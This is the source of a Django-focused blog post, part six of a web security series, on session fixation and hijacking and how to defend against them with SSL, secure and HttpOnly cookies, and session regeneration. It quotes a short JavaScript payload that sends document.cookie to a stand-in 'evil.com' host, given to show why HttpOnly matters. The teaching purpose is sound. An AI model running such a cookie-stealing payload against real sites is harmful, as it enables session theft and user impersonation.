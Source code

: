 ```yaml
---
title: 'Session Fixation and Hijacking &#8211; Basic Security Part 6'
author: James
layout: post
permalink: /session-fixation-and-hijacking-basic-security-part-6-801/
bitly_url:
  - http://j0.is/14e0ktJ
bitly_hash:
  - 14e0ktJ
bitly_long_url:
  - http://coffeeonthekeyboard.com/session-fixation-and-hijacking-basic-security-part-6-801/
dsq_thread_id:
  - 1746519726
categories:
  - Security
tags:
  - django
  - django-nyc-security
  - mozilla
  - security
  - sessions
---
```

*NB: This is the sixth post in a [series][1] of posts on web application security.*

  1. Don&#8217;t put session IDs in the URL. Django explicitly [does not support][2] this because it&#8217;s just dangerous.
  2. Use SSL and `secure` cookies.
  3. Use `HttpOnly` cookies.

Is it really that easy? Yes and no. But start there and you&#8217;ve already gone a really long way.

**Session fixation** and **session hijacking** are both attempts to gain access to a system as another user, hopefully a privileged one (though with some systems, where money is involved, privilege doesn&#8217;t necessarily even matter).

In session fixation, using a session ID in the URL, I try to cause a target to log in with a predictable session ID, then reuse that ID myself:

  1. Send target to `http://unsafe/?PHPSESSID=mysession`, they log in.
  2. Go to `http://unsafe/?PHPSESSID=mysession`: congrats! You look like the same user.

Or the other way, you can cause a user to act like you, and, say, enter their credit card information onto your account.

  1. Login to `http://unsafe/?PHPSESSID=mysession`.
  2. Send other user to `http://unsafe/payment_methods?PHPSESSID=mysession`, and they look like you!

There are other, better mitigations, like tying sessions to IP addresses (though that can be spoofed) and giving them short timeouts (though that runs against best practices for user experience, stay tuned). But first and foremost, don&#8217;t put session IDs in URLs.

There are more [complicated vectors for fixation][3], too. Fortunately most browsers won&#8217;t let you do the easy things and the other OWASP examples rely on an existing [XSS vulerability][4], which hopefully you&#8217;ve taken care of.

Among other things, you can [regenerate a session ID][5] when someone logs in, and should, if your framework and language supports it. (Django does this automatically if you use the built-in authentication tools.)

Then we get to the crossroads of fixation and hijacking. One other route to fix someone&#8217;s session cookie identifier is to use a [Man-in-the-Middle][6] attack to change the `Set-Cookie` header (useful for the latter case, above, getting someone to act like you).

How to address this? Use SSL.

Use SSL because it&#8217;s your best defense against a tool like [Firesheep][7]. It&#8217;s not perfect, it can be MITMed, but this is about [locking your car doors][8]. Login form submissions and session cookies should go over SSL. Certs are cheap, both in price and [computation time][9], just do it.

Finally, make sure your cookies have the [`secure`][10] and [`HttpOnly`][11] flags, especially the session cookie. Django  
supports this now so just use the built-in support. (Django defaults to `HttpOnly`.)

Why? Say someone finds a hole to execute some JS on your site, and if your session cookies aren&#8217;t `HttpOnly` (in fact, every cookie that can be, should be), they could execute this:

    var i = new Image();
    i.src = 'http://evil.com/record?' + document.cookie;
    body.appendChild(i);
    

Grabbing every cookie, but especially the session ID, and impersonating a poor, well-intentioned user.

Finally, make sure to **destroy session data at logout**, or at least mark the session ID as invalid (and thus not let anyone use it) and clean it up later.

## What else?

I can&#8217;t shake the feeling I&#8217;m forgetting something important on this one, so use the comments and let me and everyone else know about the other vectors and mitigations. And check out [Chris Shiflett&#8217;s post][12] on the same topic for more insight.

  * Go to the [series index][8].
  * Go to the previous post in the series, [Access Control][13].
  * Go to the next post in the series, [Server Configuration][14].

 [1]: http://coffeeonthekeyboard.com/best-basic-security-practices-especially-with-django-697/
 [2]: https://docs.djangoproject.com/en/dev/topics/http/sessions/#session-ids-in-urls
 [3]: https://www.owasp.org/index.php/Session_fixation
 [4]: http://coffeeonthekeyboard.com/xss-cross-site-scripting-basic-security-part-2-711/ "XSS: Cross-Site Scripting – Basic Security Part 2"
 [5]: http://php.net/manual/en/function.session-regenerate-id.php
 [6]: https://www.owasp.org/index.php/Man-in-the-middle_attack
 [7]: http://codebutler.com/firesheep
 [8]: http://coffeeonthekeyboard.com/best-basic-security-practices-especially-with-django-697/ "Best Basic Security Practices (Especially with Django)"
 [9]: http://www.imperialviolet.org/2010/06/25/overclocking-ssl.html
 [10]: https://docs.djangoproject.com/en/dev/topics/http/sessions/#session-cookie-secure
 [11]: https://docs.djangoproject.com/en/dev/topics/http/sessions%
 [12]: http://shiflett.org/articles/session-fixation
 [13]: http://coffeeonthekeyboard.com/access-control-basic-security-part-5-765/ "Access Control – Basic Security Part 5"
 [14]: http://coffeeonthekeyboard.com/server-configuration-basic-security-part-7-816/ "Server Configuration – Basic Security Part 7"